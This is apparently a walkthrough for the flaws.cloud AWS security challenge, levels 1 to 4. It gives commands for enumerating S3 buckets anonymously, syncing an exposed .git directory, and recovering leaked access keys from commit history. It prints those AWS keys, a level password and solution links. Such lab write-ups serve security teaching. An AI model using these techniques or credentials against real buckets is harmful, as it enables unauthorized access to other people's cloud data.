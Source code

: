 # Flaws

## Level 1
 
Use the command 

    $nslookup flaws.cloud 

to find the ip  address of the aws server flaws.cloud

Resultant ips :  

    Name:   flaws.cloud
    Address: 52.92.192.211
    Name:   flaws.cloud
    Address: 52.218.181.178
    Name:   flaws.cloud 
    Address: 52.218.153.82
    Name:   flaws.cloud
    Address: 52.92.249.155
    Name:   flaws.cloud
    Address: 52.218.229.98
    Name:   flaws.cloud
    Address: 52.218.196.163
    Name:   flaws.cloud
    Address: 52.92.181.83
    Name:   flaws.cloud
    Address: 52.218.240.99
Reverse lookup on the ip results on 
    
    name = s3-website-us-west-2.amazonaws.com
Using the command :

    $nslookup 52.218.181.178
    
Using the command:

    $aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2
    
list the root files on the flaws.cloud as an anonymous id.

Result:

    2017-03-14 08:30:38       2575 hint1.html
    2017-03-03 09:35:17       1707 hint2.html
    2017-03-03 09:35:11       1101 hint3.html
    2020-05-22 23:46:45       3162 index.html
    2018-07-10 22:17:16      15979 logo.png
    2017-02-27 07:29:28         46 robots.txt
    2017-02-27 07:29:30       1051 secret-dd02c7c.html
    
    
Browse 

    https://flaws.cloud/secret-dd02c7c.html
    
to get into the next level

Link for the next level: http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
    
## Level 2

Create an account in aws as with free tier.

Create a Iam user with access key and secret access key after creating the account.

After creating the user try enquiring or list the root directory as a verified user from the terminal after setting the aws cli with access key and secret access key.

command for listing:

    $aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
   
Output be like:

    2017-02-27 07:32:15      80751 everyone.png
    2017-03-03 09:17:17       1433 hint1.html
    2017-02-27 07:34:39       1035 hint2.html
    2017-02-27 07:32:14       2786 index.html
    2017-02-27 07:32:14         26 robots.txt
    2017-02-27 07:32:15       1051 secret-e4443fc.html
    
After getting the result browse the secret file and you will get the link for the next level: http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html
    
## Level 3

To list the root dir files use the command:


    $aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
output:

                                PRE .git/
    2017-02-27 05:44:33     123637 authenticated_users.png
    2017-02-27 05:44:34       1552 hint1.html
    2017-02-27 05:44:34       1426 hint2.html
    2017-02-27 05:44:35       1247 hint3.html
    2017-02-27 05:44:33       1035 hint4.html
    2020-05-22 23:51:10       1861 index.html
    2017-02-27 05:44:33         26 robots.txt

Here we can a see a .git file, 

For accessing the git commands, we sync it with our local system using the command:
 
    $ aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud ./flaws

Navigate into that directory using the command:

    $cd flaws

After that, for finding access and secret key, we can use the command
     
     $git logs
     
output:

    commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
    Author: 0xdabbad00 <scott@summitroute.com>
    Date:   Sun Sep 17 09:10:43 2017 -0600

        Oops, accidentally added something I shouldn't have

    commit f52ec03b227ea6094b04e43f475fb0126edb5a61
    Author: 0xdabbad00 <scott@summitroute.com>
    Date:   Sun Sep 17 09:10:07 2017 -0600

        first commit
To change branch that was mentioned in the commit, follow the command

    $ git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
You will be switched to the new branch were you will get a file named access_keys.txt which contains the access keys.

Output:

    access_key AKIAJ366LIPB4IJKT7SA
    secret_access_key OdNa7m+bqUvF3Bn/qgSnPE1kBpqcBTTjqwP83Jys

Configure your aws with this keys along with the region us-west-2

Then run:
   
    $aws s3 ls
    
Output:

     2020-06-25 23:13:56 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
     2020-06-27 04:36:07 config-bucket-975426262029
     2020-06-27 16:16:15 flaws-logs
     2020-06-27 16:16:15 flaws.cloud
     2020-06-27 20:57:14 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
     2020-06-27 20:57:14 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
     2020-06-27 20:57:14 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
     2020-06-27 20:57:15 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
     2020-06-27 20:57:15 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
     2020-06-28 07:59:47 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
     
     
We get the links to complete all the levels.

Link for level 4: https://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud

## Level 4

uname: flaws
pass: nCP8xigdjpjyiXgJ7nJu7rw5Ro68iE8M

Link for level 5: http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/

